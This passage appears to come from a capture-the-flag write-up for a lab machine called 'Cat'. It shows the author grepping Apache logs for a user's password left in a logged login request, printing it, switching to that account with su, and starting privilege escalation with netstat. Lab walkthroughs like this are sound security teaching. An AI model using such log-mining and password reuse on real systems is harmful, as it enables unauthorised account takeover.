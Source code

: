 ```bash
-rw-------   1 root      root              5816 Jul  5 15:02 vmware-vmsvc-root.log
-rw-------   1 root      root              3720 Jul  5 15:01 vmware-vmtoolsd-root.log
-rw-rw-r--   1 root      utmp            238080 Jul  5 16:01 wtmp
```

So, since we already know that there are those `users`, we put the `grep` command together with the names of the `/home` to see if there is any `password`
```bash
grep axel /var/log/apache2 -R
```

```bash
/var/log/apache2/access.log.1:127.0.0.1 - - [31/Jan/2025:11:31:22 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
```

And as we see, we get the password `aNdZwgC4tI9gnVXv_e3Q` in this way we can access `axel` with `su axel`

```bash
rosa@cat:/home$ su axel
Password: aNdZwgC4tI9gnVXv_e3Q
axel@cat:/home$ id
uid=1000(axel) gid=1000(axel) groups=1000(axel)
axel@cat:~$ ls
user.txt
```

And here we have the first flag

## PRIVILEGE ESCALATION
---

Now we look at the machine connections

```bash
netstat -tulnp
```

```bash
axel@cat:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:40567         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:47705         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35261         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -    
```
